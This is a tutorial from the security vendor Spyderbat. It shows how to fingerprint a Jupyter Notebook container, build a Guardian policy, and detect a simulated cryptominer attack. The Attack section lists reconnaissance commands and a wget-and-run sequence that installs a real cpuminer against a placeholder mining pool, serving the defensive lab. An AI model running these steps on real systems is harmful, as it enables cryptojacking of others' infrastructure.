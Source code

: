 # Introduction to Policies — Cryptominer Attack

> This Scenario is loosely based on the [Silent Bob container attack](https://www.spyderbat.com/blog/silent-bob-container-attack-exposed).

## Setup

For this scenario, we have set up an unguarded Jupyter Notebook pod within the cluster. To start, let's see it in use, and create some "normal" activity that we will use later to generate a baseline fingerprint. After running the access script (`./scripts/access.sh`), you can reach the notebook from <a href="http://localhost:1234" target="_blank">localhost:1234</a>.

This is a standard Jupyter notebook, running the `jupyter/minimal-notebook` docker image. Select the Python 3 notebook, and run some commands in it.

> <i class="fa fa-fire"></i> **Tip:**
> 
> Use the play button or the keyboard shortcut Ctrl-Enter to run code within a code block in the Jupyter Notebook.

```py
print("Hello world!")
```

```sh
!pip install --upgrade pip setuptools wheel
```

Spyderbat is using the activity we just created to define a "fingerprint" for this container. A container fingerprint tracks all of the processes and connections created in a container during normal operation and can be used to define [Guardian Policies](https://docs.spyderbat.com/concepts/guardian). These policies are used by Spyderbat to detect when anomalous activity occurs, either alerting you or even killing the pod in response, depending on the configuration.

Let's take a look at these fingerprints in the Spyderbat UI. Navigate to the Fingerprints page (listed under Guardian in the navigation sidebar). This page lists all of the fingerprints created by Spyderbat for your account, one for each image you have deployed. Using the search bar in the top right, search for "Jupyter" to narrow down the list. To narrow the scope further, we can select the "cryptominer" namespace and "active" status. From there, select the fingerprints that we want (the `minimal-notebook` image), and click "Create Policy" on the bottom bar.

This will open the Policy creation window, allowing you to preview the policy created from the selected fingerprints. If necessary, you could edit the processes and connections that were autogenerated here. For our purposes, the autogenerated data should be good enough, so select "Next". Give the policy a name, but leave it in audit mode for now. Audit mode means the policy will be tracked, but will not actually create any responses, allowing for testing.

![The policy creation screen](./policy_creation.png)

Let's test out the policy by running a new command that is not present in the policy. Navigate back to the Jupyter Notebook interface and open a new "terminal" tab instead of Python. This alone should be enough to be detected, but let's run `ls` just to make sure we have something to look for. It will take a minute or two for the data to appear in the console, but we can navigate to the Guardian Policies page while we are waiting.

This page shows all of the existing (container) policies in your account. Select "View" on the new policy to open the Policy management window. Here, you can see the existing policy as well as all of the detected deviations. It also allows for editing the policy, such as setting it to enforce mode or adding new processes and connections to the policy.

Navigate to the "Deviations" tab. If you do not already see a list of deviations, refresh the page to ensure you have the latest data. After selecting all of the deviations, your policy graph should look similar to the one below.

![The created policy, and our new deviations](./policy_graph.png)

Now that we know the policy works, let's put it in enforce mode. De-select the deviant processes, switch to the "Policy Info" tab, select "Enforcing", and click Save. Since we left the default actions enabled, this policy will not kill deviant pods, only create red flags for deviant processes and connections.

## Attack

Next, let's simulate a malicious use of the Jupyter Notebook. Switch back to the Jupyter Notebook terminal, and run some exploration commands:

```
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ id
uid=1000(jovyan) gid=100(users) groups=100(users)
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ sudo -l
[sudo] password for jovyan: 
Sorry, try again.
[sudo] password for jovyan:^C 
sudo: 1 incorrect password attempt
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ ping -n 3 sourceforge.net
bash: ping: command not found
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ curl sourceforge.net > /dev/null
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ 
```

Looks like we don't have sudo access, there aren't many tools (like ping), but we can connect to SourceForge. Luckily, that is all we need to install a crypto miner. First, we can check that there aren't already any crypto miners installed on this system (given how poor the security would be if this were truly deployed):

```sh
ps -aux
```

Looks like we are alone. So, we can now install the miner:

```sh
wget https://sourceforge.net/projects/cpuminer/files/pooler-cpuminer-2.5.1-linux-x86_64.tar.gz/download
tar -xzf download
./minerd --url fakeminingpool.example.com -u ME -p passwd
```

> <i class="fa-solid fa-info"></i> **Note:**
> 
> This is a real cryptominer, but is not configured to connect to a real service.

## Investigation

Now that we have executed the attack, let's go back to the policy deviations page. Select "View" on the policy, and add all of the deviations to the graph. Here, we can see all of the different commands and connections that did not fit into the existing fingerprint. 

![The new policy deviations](./attack_deviations.png)

Select "Start Process Investigation" on the bottom to see a more detailed view of the tracked deviations. Here, we can see a causal view of all of our attack actions within the container.

![A trace showing the executed attack](./attack_trace.png)

## Cleanup

To ensure that the flags generated by this policy don't interfere with the other demos, let's disable the Guardian policy. Navigate back to the Policies page, and view the policy. Turn off the "Enabled" switch in the Policy Info tab, and save the policy.

## Further Reading

- [Guardian and Interceptor Policies - Spyderbat Documentation](https://docs.spyderbat.com/concepts/guardian)
- [How to Lock Down Your Workloads With Guardian Policies Using Spyctl - Spyderbat Documentation](https://docs.spyderbat.com/tutorials/guardian/how-to-lock-down-your-critical-workloads-with-policies-spyctl)
- ['Silent Bob' Container Attack Exposed - Spyderbat Blog](https://www.spyderbat.com/blog/silent-bob-container-attack-exposed)
